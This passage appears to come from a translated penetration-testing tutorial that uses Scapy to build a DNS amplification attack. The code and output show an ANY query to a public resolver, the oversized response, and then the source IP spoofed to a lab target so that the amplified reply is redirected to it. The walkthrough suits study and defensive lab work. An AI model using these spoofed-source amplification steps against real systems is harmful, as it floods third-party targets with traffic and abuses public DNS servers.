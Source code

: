 
一旦建立了请求，它就可以被传递给发送和接收函数，以便我们可以分析响应。 我们不会将它赋给一个变量，而是直接调用该函数，以便可以以相同的格式查看响应：

```
>>> sr1(request) 
Begin emission: 
....................Finished to send 1 packets. 
.............................* 
Received 50 packets, got 1 answers, remaining 0 packets 

<IP  version=4L ihl=5L tos=0x0 len=378 id=29706 flags= frag=0L ttl=128 proto=udp chksum=0x4750 src=208.67.220.220 dst=172.16.36.232 options=[] |<UDP  sport=domain dport=domain len=358 chksum=0xf360 |<DNS  id=0 qr=1L opcode=QUERY aa=0L tc=0L rd=1L ra=1L z=0L rcode=ok qdcount=1 ancount=17 nscount=0 arcount=0 qd=<DNSQR  qname='google.com.' qtype=ALL qclass=IN |> an=<DNSRR  rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.103' |<DNSRR  rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.102' |<DNSRR  rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.98' |<DNSRR  rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.96' |<DNSRR  rrname='google. com.' type=A rclass=IN ttl=188 rdata='74.125.228.99' |<DNSRR  rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.110' |<DNSRR  rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.100' |<DNSRR  rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.97' |<DNSRR  rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.104' |<DNSRR  rrname='google. com.' type=A rclass=IN ttl=188 rdata='74.125.228.105' |<DNSRR  rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.101' |<DNSRR  rrname='google.com.' type=AAAA rclass=IN ttl=234 rdata='2607 :f8b0:4004:803::1002' |<DNSRR  rrname='google.com.' type=NS rclass=IN ttl=171376 rdata='ns2.google.com.' |<DNSRR  rrname='google.com.' type=NS rclass=IN ttl=171376 rdata='ns1.google.com.' |<DNSRR  rrname='google. com.' type=NS rclass=IN ttl=171376 rdata='ns3.google.com.' |<DNSRR  rrname='google.com.' type=NS rclass=IN ttl=171376 rdata='ns4.google.com.' |<DNSRR  rrname='google.com.' type=SOA rclass=IN ttl=595 rdata='\xc1\x06\ tdns-admin\xc0\x0c\x00\x17\xd0`\x00\x00\x1c \x00\x00\x07\x08\x00\x12u\ x00\x00\x00\x01,' |>>>>>>>>>>>>>>>>> ns=None ar=None |>>> 
```

该响应确认了我们已成功构建所需的请求，并且我们已请求了一个相当大的有效内容，其中包括`google.com`域的 11 个 A 记录，1 个 AAAA 记录，4 个 NS 记录和 1 个 SOA 记录。 此练习清楚地表明，请求的响应明显大于请求本身。 为了使这个放大攻击有效，它需要通过伪造源 IP 地址重定向到我们的目标：

```
>>> i.src = "172.16.36.135" 
>>> i.display()
###[ IP ]###
  version= 4
  ihl= None
  tos= 0x0
  len= None
  id= 1
  flags=
  frag= 0
  ttl= 64
  proto= ip
  chksum= None
  src= 172.16.36.135
  dst= 208.67.220.220
  \options\ 
>>> request = (i/u/d) 
>>> request 
<IP  frag=0 proto=udp src=172.16.36.135 dst=208.67.220.220 |<UDP  sport=domain |<DNS  rd=1 qdcount=1 qd=<DNSQR  qname='google.com' qtype=ALL |> |>>>
```

